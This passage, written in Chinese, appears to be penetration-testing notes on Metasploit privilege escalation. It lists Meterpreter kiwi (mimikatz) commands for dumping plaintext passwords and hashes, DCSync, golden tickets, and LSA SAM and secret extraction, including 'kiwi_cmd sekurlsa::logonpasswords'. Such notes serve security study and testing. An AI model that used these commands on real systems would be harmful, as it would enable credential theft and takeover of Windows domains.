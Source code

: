 

下面是相关命令

```
reds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

creds_all
#该命令可以列举系统中的明文密码

kiwi_cmd
kiwi_cmd 模块可以让我们使用mimikatz的全部功能，该命令后面接 mimikatz.exe 的命令
kiwi_cmd sekurlsa::logonpasswords

```



列出了所有的lsa的hash值

![image-20210811175221579](msf提权.assets/image-20210811175221579.png)
